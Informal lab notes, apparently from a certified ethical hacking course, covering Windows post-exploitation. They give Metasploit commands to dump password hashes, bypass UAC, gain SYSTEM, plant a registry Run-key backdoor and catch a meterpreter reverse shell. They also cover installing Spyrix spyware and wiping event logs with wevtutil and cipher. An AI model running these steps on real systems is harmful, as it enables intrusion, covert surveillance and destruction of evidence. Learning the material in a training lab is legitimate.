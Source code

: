 	-  Screenshot of Metasploit showing dump of password hashes
		- command 
			- ``run post/windows/gather/smart_hashdump``
# Lab 3: Maintain Remote Access and Hide Malicious Activities
## Task 1: User System Monitoring and Surveillance using Spyrix
- open Windows Server 2022
1. cd ``Z:\CEHv13 Module 06 System Hacking\Spyware\General Spyware\Spyrix and double-click spm_setup.exe``
2. then follow the lab manual 
## Task 2: Maintain Persistence by Modifying Registry Run Keys
- 
1.    get acess 
2. for bypass uac use this module 
	- ``use exploit/windows/local/bypassuac_silentcleanup ``
3. get elevate privileges
	- ``getsystem -t 1``
4. open shell and type 
	- ``reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_EXPAND_SZ /d "C:\Users\Admin\Downloads\registry.exe"`` `#filename.exe`
-  Once the command is successfully executed, open another terminal window with root privileges and run **msfconsole** command.
1. use `` exploit/multi/handler ``
2. payload setting 
	- ``set payload windows/meterpreter/reverse_tcp****set payload windows/meterpreter/reverse_tcp ``
	-  ``set lhost 10.10.1.13``
	- ``set lport 4444``
3. check using ``getuid``
# Lab 4: Clear Logs to Hide the Evidence of Compromise

## Task 1: Clear Windows Machine Logs using Various Utilities

1. open windows 11 machine navigate to 
	- ``E:\CEH-Tools\CEHv13 Module 06 System Hacking\Covering Tracks``
		- run file  as administrator
		- ``Clear_Event_Viewer_Logs.bat``
2. using wevtutil 
	 - open cmd as administrator
		-   command to display a list of event logs.
			- ``wevtutil el``
				-   lists event log names.
				- `` el | enum-logs``
	- command to clear log as
		- ``wevtutil cl [log_name]``
		- ``wevtutil cl system ``
	  - Similarly, you can also clear application and security logs by issuing the same command with different log names (**application, security**).
3. using cipher 
	- command to clear log using cipher 
	- ``cipher /w:[Drive or Folder or File Location]``
	- ``cipher /w:C:``
